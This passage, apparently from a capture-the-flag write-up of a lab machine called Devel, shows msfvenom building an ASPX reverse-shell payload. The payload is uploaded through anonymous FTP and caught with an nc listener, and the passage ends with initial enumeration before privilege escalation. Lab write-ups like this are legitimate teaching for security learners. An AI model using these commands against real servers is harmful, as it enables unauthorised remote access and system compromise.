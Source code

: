 =======================================================


To build the .aspx file, we will once again turn to msfvenom which can output a .aspx file using the “-f aspx” option:

    msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=9997 -f aspx > shell.aspx

-p for payload, in this case a Windows reverse shell using TCP

LHOST is our attacking machine IP address (Kali machine)

LPORT is one we choose and will be listening on for the reverse TCP connection

-f for “format” in this case the aspx file

\> to redirect the output of this command into “shell.aspx”

![](/images/devel/20. msfvenom.png)

Now we use ftp to upload the file to the server:

    ftp 10.10.10.5
    
    anonymous
    
    anypassword
    
    put shell.aspx
    
    dir
    
    quit

![](/images/devel/21. ftp-put.png)

In a separate terminal window, start a nc listener on port 9997.

    nc -lvnp 9997

![](/images/devel/22. nc_listener.png)

And then using a web browser, browse to the file:  http://10.10.10.5/shell.aspx

The browser will appear to hang, but over in your terminal window you should see a connection:

![](/images/devel/23. nc_connection.png)

And we have a shell!  But it looks like it may be low privileged.  Let's do some basic enum:

    whoami

    systeminfo

![](/images/devel/24. whoami-systeminfo.png)
![](/images/devel/24. whoami-systeminfo_2.png)

We are the user “web” running on a Windows 7 Enterprise machine. Likely little to no access to sensitive information.

Now we need to enumerate the machine to identify a path for privilege escalation. To do this we will use Watson. Watson is the successor to Sherlock, but requires some setup and compilation on a Windows machine which we will do now.  
